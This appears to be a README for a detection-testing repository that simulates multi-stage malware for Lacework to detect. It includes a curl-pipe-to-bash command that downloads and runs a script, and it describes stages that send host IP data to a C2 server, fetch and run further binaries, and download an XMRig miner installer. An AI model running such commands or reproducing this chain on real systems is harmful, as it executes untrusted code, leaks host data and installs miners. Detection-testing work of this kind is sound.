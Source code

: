 # detection-testing
These tools are designed to simulate malware with multiple stages, so it can be detected by Lacework. All binaries are written in Go (sources are provided). The process is automated, and can be started by running the command below.

Run this command to start the whole process:

```
curl https://raw.githubusercontent.com/sporcello7/detection-testing/main/lw-det-test.sh | bash
```

lw-det-test.sh
--------------
This script will:
  1. Download the lw-stage-1 first stage binary
  2. Change permissions to lw-stage-1 so it can be executed
  3. Execute lw-stage-1 in the background


lw-stage-1
---------------
This binary will:
  1. Collect IP information about intefaces
  2. Download lw-stage-2 as a second stage binary
  3. Change permissions to lw-stage-2 so it can be executed
  4. Execute lw-stage-2
  5. Coninuously beacon to the C2 server (payload is the IP information collected in step 1)

NOTE: Make sure to kill the lw-stage-1 process, as it is designed to run in the background and will continue to beacon to the C2 server.


lw-stage-2
--------------
This binary will:
  1. Download install-demo-1.sh bash script, which can be used to install an XMRig coin miner
     (It will NOT execute the coinminer script)
  2. The script is downloaded from a "known" bad domain
